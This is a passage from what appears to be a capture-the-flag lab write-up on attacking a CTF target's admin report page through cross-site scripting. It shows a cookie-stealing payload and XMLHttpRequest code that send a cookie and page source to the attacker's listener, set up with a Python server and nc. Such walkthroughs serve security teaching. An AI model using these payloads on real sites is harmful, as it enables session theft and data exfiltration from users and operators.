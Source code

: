     
    root@kali# python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.10.208 - - [22/Jan/2021 17:36:39] "GET / HTTP/1.1" 200 -
    

I’ll also catch a request with `nc` to see the full headers being used by the
admin team:

    
    
    GET / HTTP/1.1
    Host: 10.10.14.11
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: */*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://gym-club.crossfit.htb/security_threat/report.php
    Connection: keep-alive
    

The admin team is looking at the report in Firefox. I don’t see any
vulnerabilities in that version of Firefox.

### XSS Fails

I first tried to leak a cookie with a payload like:

    
    
    document.location="http://10.10.14.11/?c="+document.cookie;
    

I got a hit on my server, but no cookie:

    
    
    10.10.10.208 - - [22/Jan/2021 17:46:57] "GET /?c= HTTP/1.1" 200 -
    

I also wanted to see what else was in `report.php`, as I’m sure that the
person reading this can open it. This JavaScript will query `report.php`, and
then when that request is complete, it will create a new request and send the
results back to me as a POST (I’ll be using the XMLHttpRequest a good bit, so
the [docs](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest)
come in handy here):

    
    
    var fetch_req = new XMLHttpRequest();
    fetch_req.onreadystatechange = function() {
        if(fetch_req.readyState == XMLHttpRequest.DONE) {
            var exfil_req = new XMLHttpRequest();
            exfil_req.open("POST", "http://10.10.14.11:3000", false);
            exfil_req.send("Resp Code: " + fetch_req.status + "\nPage Source:\n" + fetch_req.response);
        }
    };
    fetch_req.open("GET", "http://gym-club.crossfit.htb/security_threat/report.php", false);
    fetch_req.send();
    

I’ll need to send it back to a different port from where I’m hosting this
payload using Python HTTP Server (since it won’t accept POSTs or show the
body), so I’ll setup `nc` on port 3000 to catch that.
